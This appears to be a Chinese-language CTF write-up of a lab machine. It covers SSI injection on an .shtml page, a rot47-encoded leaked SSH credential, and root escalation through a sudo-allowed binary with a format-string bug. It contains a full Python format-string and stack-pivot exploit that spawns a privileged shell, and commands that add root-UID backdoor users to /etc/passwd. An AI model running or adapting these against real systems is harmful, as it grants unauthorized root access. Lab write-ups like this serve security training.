# 信息收集

基本的主机发现、端口与服务探测、默认脚本扫描


这是一个维护控制台的页面

但是很容易主要的一个问题：这不是常见的html文件而是**shtml**

很可能是存在**SSI注入**的，也有可能存在**XSS**

先尝试一下**SSI注入**（根据经验判断，该可能性要大点）

看样子很明显了，那就尝试进行反弹Shell






可直接查看Home目录下的andeli用户的文件
获得**User_Flag**：**flag{user-eb1f54312530df122fb0180c7756f0db}**

# 横向移动

在获得**User_Flag**时并没有发现**ssh**类的凭证，所以得查看一下是否存在其他文件中泄露了凭证的内容

在**html**目录下找到了一个疑似凭证的信息泄露，但是被加密处理了（但也给了提示：**rot47**）


直接在**CyberChef**中找到了**ROT47**，尝试解密


直接获得了凭证（ **andeli:rQEzwDzuePoINUUi** ）
当然其实这种简单的交给AI也是很快的



直接尝试SSH登录



# 提权枚举


枚举出了一个无需密码都可执行的二进制程序


将它拉取下来看来一下，是一个32位的程序
看来得丢给IDA详细看一看了


定位到了**main**函数，逻辑很简单但是存在较为严重的问题：
- printf(format)：用户输入直接被当作了`printf` 的**格式字符串**使用；攻击者可以在输入中插入 `%x`、`%s`、`%n` 等格式化占位符，实现**泄露内存信息**、**写任意内存**等
- scanf()：很可能触发缓存区溢出的问题，且这里未做**长度限制**（存在栈溢出）

先进行尝试

判断出：**输⼊缓冲区的内容从printf的第四个参数开始被当作参数使⽤**


通过多次尝试，发现貌似可以得到其基地址
越到后面发现越麻烦了（由于Pwn碰得不多，对这些越看越晕了）
所以还是交给AI吧！！！
```
main 结尾的栈迁移才是关键：
  0x080484D6  mov  ecx, [ebp-4]     ; 恢复 saved ECX
  0x080484DA  lea  esp, [ecx-4]     ; ★ esp = ecx - 4
  0x080484DD  ret

payload[116:120] 覆盖 [ebp-4] → ecx 被劫持 → esp 被迁移到 .bss 上的假栈 → ret 执行 execve
```

**exploit**
```python
#!/usr/bin/env python3
"""Exploit for 'format' binary — Stack Pivot via saved ECX overwrite."""
import struct
import subprocess
import re
import os

def p32(x):
    return struct.pack("<I", x)

# ============================================================
# 配置
# ============================================================
BINARY_PATH  = "/usr/local/bin/format"
LIBC_PATH    = "/lib/i386-linux-gnu/libc.so.6"
LIBC_RET_OFF = 0x232d5          # leak - libc_base

# .bss 可写区域 (页边界到 0x804b000)
ROP_STACK    = 0x0804a040        # ROP 链 / 假栈
BINBASH_ADDR = 0x0804a090        # "/bin/bash" 字符串
DASHP_ADDR   = 0x0804a09c        # "-p" 字符串
ARGV_ADDR    = 0x0804a0a0        # argv 数组

# ============================================================
# 工具函数
# ============================================================
def get_sym_offset(name):
    """从 libc 符号表获取函数偏移"""
    out = subprocess.check_output(
        ["readelf", "-sW", LIBC_PATH],
        stderr=subprocess.DEVNULL
    ).decode(errors="ignore")
    for line in out.splitlines():
        cols = line.split()
        if len(cols) >= 8 and "FUNC" in cols:
            sym = cols[-1].split("@")[0]
            if sym == name:
                return int(cols[1], 16)
    raise SystemExit(f"[-] cannot find {name} in {LIBC_PATH}")


def leak_libc_ret():
    """泄露 __libc_start_main 内部的返回地址"""
    payload = b"LEAK%35$08xEND\n"
    p = subprocess.run(
        [BINARY_PATH],
        input=payload,
        stdout=subprocess.PIPE,
        stderr=subprocess.STDOUT
    )
    out = p.stdout.decode(errors="ignore")
    hits = re.findall(r"LEAK([0-9a-fA-F]{8})END", out)
    if not hits:
        print(out)
        raise SystemExit("[-] leak failed")
    return int(hits[-1], 16)


# ============================================================
# Step 1: 泄露 & 计算地址
# ============================================================
leak       = leak_libc_ret()
libc_base  = leak - LIBC_RET_OFF
execve_off = get_sym_offset("execve")
execve_addr = libc_base + execve_off

print(f"[*] leak:       {hex(leak)}")
print(f"[*] libc_base:  {hex(libc_base)}")
print(f"[*] execve_off: {hex(execve_off)}")
print(f"[*] execve:     {hex(execve_addr)}")

# ============================================================
# Step 2: 构造 ROP 链 + 字符串 (写入 .bss)
# ============================================================
pairs = {}

def add_bytes(addr, data):
    for i, b in enumerate(data):
        if b != 0:
            pairs[addr + i] = b

# execve("/bin/bash", ["/bin/bash", "-p", NULL], NULL)
rop  = b""
rop += p32(execve_addr)          # [ROP_STACK+0]  execve 入口
rop += p32(0x41414141)           # [ROP_STACK+4]  假返回地址
rop += p32(BINBASH_ADDR)         # [ROP_STACK+8]  arg1: "/bin/bash"
rop += p32(ARGV_ADDR)            # [ROP_STACK+12] arg2: argv
rop += p32(0x00000000)           # [ROP_STACK+16] arg3: NULL

add_bytes(ROP_STACK,    rop)
add_bytes(BINBASH_ADDR, b"/bin/bash\x00")
add_bytes(DASHP_ADDR,   b"-p\x00")
add_bytes(ARGV_ADDR,    p32(BINBASH_ADDR))      # argv[0]
add_bytes(ARGV_ADDR+4,  p32(DASHP_ADDR))        # argv[1]
add_bytes(ARGV_ADDR+8,  p32(0x00000000))        # argv[2] = NULL

# ============================================================
# Step 3: 构造格式字符串 payload
# ============================================================
items = list(pairs.items())

# special_addr (0x0804a044 = ROP_STACK+4) 必须在 items[29]
# 即格式参数 offset #33 → buf[116:120] → [ebp-4] = saved ECX
special_addr = ROP_STACK + 4
items = [x for x in items if x[0] != special_addr]
items.insert(29, (special_addr, pairs[special_addr]))

# 地址表 (格式参数区)
payload = b""
for addr, _ in items:
    payload += p32(addr)

if b"%" in payload:
    print("[-] raw % in address table, abort")
    raise SystemExit

# 格式说明符 (%hhn 逐字节写入)
count = len(payload) & 0xFF
for idx, (addr, val) in enumerate(items, start=4):
    delta = (val - count) & 0xFF
    if delta:
        payload += f"%{delta}c".encode()
        count = (count + delta) & 0xFF
    payload += f"%{idx}$hhn".encode()

# ============================================================
# Step 4: 验证 & 保存
# ============================================================
bad = [0x00, 0x09, 0x0a, 0x0b, 0x0c, 0x0d, 0x20]
for c in bad:
    if c in payload:
        offset = payload.index(bytes([c]))
        print(f"[-] bad char {hex(c)} at offset {offset}")
        raise SystemExit

print(f"[*] payload length: {len(payload)}")
print(f"[*] pivot bytes @116: {payload[116:120].hex()}")
print(f"[*] target pivot:     {p32(ROP_STACK + 4).hex()}")

payload_file = "/tmp/payload_format"
with open(payload_file, "wb") as f:
    f.write(payload + b"\n")

print(f"[+] payload saved to {payload_file}")
print(f"[+] run: (cat {payload_file}; cat) | {BINARY_PATH}")

```

直接运行尝试：


这里发现貌似没用成功样！（但其实只要仔细看命令就发现它其实并未使用**root**权限进行执行）
---> 解决方案：**使用root权限run即可**


直接**sudo**即可！！！
添加一个**root**权限用户：
```bash
echo 'finis:$6$e6JtpjspVKFtqJqp$OfVdSqPU1Fol7GASj77XlJDnsVkiZ527T8SQSLiZfuTuCfuS8n4Ivg8SCii4PgziaT81kGlkrva3MaFxskc3v/:0:0:root:/root:/bin/bash' >> /etc/passwd
```


添加成功！！！
直接登录即可（这是我自己生成的密码，可以直接置为空也行）

```bash
echo 'hacker::0:0:root:/root:/bin/bash' >> /etc/passwd
```



尝试用添加的用户进行登录：
